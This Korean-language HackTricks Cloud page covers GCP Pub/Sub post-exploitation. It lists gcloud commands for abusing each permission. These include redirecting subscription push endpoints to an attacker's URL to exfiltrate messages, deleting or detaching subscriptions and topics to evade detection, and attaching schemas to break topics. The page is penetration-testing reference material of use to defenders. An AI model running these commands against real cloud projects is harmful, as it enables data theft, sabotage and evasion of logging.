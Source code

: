 # GCP - Pub/Sub Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Pub/Sub

더 많은 Pub/Sub 정보는 다음 페이지를 확인하세요:

{% content-ref url="../gcp-services/gcp-pub-sub.md" %}
[gcp-pub-sub.md](../gcp-services/gcp-pub-sub.md)
{% endcontent-ref %}

### `pubsub.topics.publish`

토픽에 메시지를 게시하여 **예상치 못한 데이터**를 보내고 예상치 못한 기능을 트리거하거나 취약점을 악용하는 데 유용합니다:
```bash
# Publish a message in a topic
gcloud pubsub topics publish <topic_name> --message "Hello!"
```
### `pubsub.topics.detachSubscription`

구독이 메시지를 받지 못하도록 방지하는 데 유용하며, 아마도 탐지를 피하기 위해 사용됩니다.
```bash
gcloud pubsub topics detach-subscription <FULL SUBSCRIPTION NAME>
```
### `pubsub.topics.delete`

구독이 메시지를 받지 못하게 하여 탐지를 피할 수 있습니다.\
구독이 연결된 주제도 삭제할 수 있습니다.
```bash
gcloud pubsub topics delete <TOPIC NAME>
```
### `pubsub.topics.update`

이 권한을 사용하여 `--clear-schema-settings`, `--message-retention-duration`, `--message-storage-policy-allowed-regions`, `--schema`, `--schema-project`, `--topic-encryption-key`와 같은 주제의 일부 설정을 업데이트하여 방해합니다.

### `pubsub.topics.setIamPolicy`

이전 공격 중 하나를 수행할 수 있는 권한을 부여합니다.

### **`pubsub.subscriptions.create,`**`pubsub.topics.attachSubscription` , (`pubsub.subscriptions.consume`)

웹 서버에서 모든 메시지를 가져옵니다:

{% code overflow="wrap" %}
```bash
# Crete push subscription and recieve all the messages instantly in your web server
gcloud pubsub subscriptions create <subscription name> --topic <topic name> --push-endpoint https://<URL to push to>
```
{% endcode %}

구독을 생성하고 이를 사용하여 **메시지를 가져오기**:
```bash
# This will retrive a non ACKed message (and won't ACK it)
gcloud pubsub subscriptions create <subscription name> --topic <topic_name>

# You also need pubsub.subscriptions.consume for this
gcloud pubsub subscriptions pull <FULL SUBSCRIPTION NAME>
## This command will wait for a message to be posted
```
### `pubsub.subscriptions.delete`

**구독 삭제**는 로그 처리 시스템이나 유사한 것을 방해하는 데 유용할 수 있습니다:
```bash
gcloud pubsub subscriptions delete <FULL SUBSCRIPTION NAME>
```
### `pubsub.subscriptions.update`

이 권한을 사용하여 메시지가 액세스할 수 있는 장소(URL, Big Query table, Bucket)에 저장되도록 설정을 업데이트하거나 단순히 방해할 수 있습니다.

{% code overflow="wrap" %}
```bash
gcloud pubsub subscriptions update --push-endpoint <your URL> <subscription-name>
```
{% endcode %}

### `pubsub.subscriptions.setIamPolicy`

이전의 언급된 공격을 수행하는 데 필요한 권한을 부여합니다.

### `pubsub.schemas.attach`, `pubsub.topics.update`,(`pubsub.schemas.create`)

스키마를 토픽에 연결하여 메시지가 이를 충족하지 못하게 하고, 따라서 토픽이 중단되도록 합니다.\
스키마가 없는 경우 하나를 생성해야 할 수도 있습니다.

{% code title="schema.json" %}
```json
{
"namespace": "com.example",
"type": "record",
"name": "Person",
"fields": [
{
"name": "name",
"type": "string"
},
{
"name": "age",
"type": "int"
}
]
}
```
{% endcode %}
```bash
# Attach new schema
gcloud pubsub topics update projects/<project-name>/topics/<topic-id> \
--schema=projects/<project-name>/schemas/<topic-id> \
--message-encoding=json
```
### `pubsub.schemas.delete`

이것은 스키마를 삭제하면 스키마를 충족하지 않는 메시지를 보낼 수 있을 것처럼 보일 수 있습니다. 그러나 스키마가 삭제되면 실제로 아무 메시지도 토픽에 들어가지 않게 됩니다. 따라서 이것은 **쓸모없습니다**:
```bash
gcloud pubsub schemas delete <SCHEMA NAME>
```
### `pubsub.schemas.setIamPolicy`

이전의 언급된 공격을 수행하는 데 필요한 권한을 부여합니다.

### `pubsub.snapshots.create`, `pubsub.snapshots.seek`

이것은 모든 unACKed 메시지의 스냅샷을 생성하고 이를 구독으로 되돌립니다. 공격자에게는 그다지 유용하지 않지만 여기에 있습니다:
```bash
gcloud pubsub snapshots create YOUR_SNAPSHOT_NAME \
--subscription=YOUR_SUBSCRIPTION_NAME
gcloud pubsub subscriptions seek YOUR_SUBSCRIPTION_NAME \
--snapshot=YOUR_SNAPSHOT_NAME
```
{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* [**구독 플랜**](https://github.com/sponsors/carlospolop)을 확인하세요!
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**telegram 그룹**](https://t.me/peass)에 가입하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)를 팔로우하세요.
* PR을 제출하여 [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 해킹 트릭을 공유하세요.

</details>
{% endhint %}
